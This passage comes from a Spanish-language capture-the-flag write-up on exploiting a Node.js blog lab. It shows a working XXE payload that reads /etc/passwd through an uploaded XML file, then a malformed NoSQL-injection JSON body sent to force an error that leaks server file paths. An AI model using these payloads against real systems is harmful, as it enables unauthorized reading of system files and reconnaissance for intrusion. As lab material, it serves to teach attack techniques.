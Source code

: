 Vamos a agregarlo a nuestro xml:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<post>
<title>archivo xml</title>
<description>Description</description>
<markdown> &xxe;</markdown>
</post>
```

En la sección de markdown agregamos **&xxe;** para llamar la entidad y hacer que se acontezca el XXE, si subimos el archivo observamos:

![](/imagenes/NodeBlog/node11.png)

Observamos que se ha ejecutado correctamente el comando, por lo tanto, explotamos el XXE, ahora lo utilizaremos para revisar diversas rutas e información del sistema, en la captura de nmap observamos que está el servidor de node.js normalmente en este tipo de proyectos hay diferentes archivos, uno en especial podríamos ver el llamado server.js, que quiźas podría contener información que nos ayude, sin embargo, no conocemos las rutas del sistema, pero como tenemos una injección noSQL podemos provocar un error y así ver si nos ofrece información de los directorios:
```
{"user": "admin", "password": {^^^"asdasd$ne": "zapato"}}a
```
Al ingresar este **json** con error podemos observar lo siguiente:

```
SyntaxError: Unexpected token ^ in JSON at position 31<br> &nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)<br> &nbsp; &nbsp;at parse (/opt/blog/node_modules/body-parser/lib/types/json.js:89:19)<
```
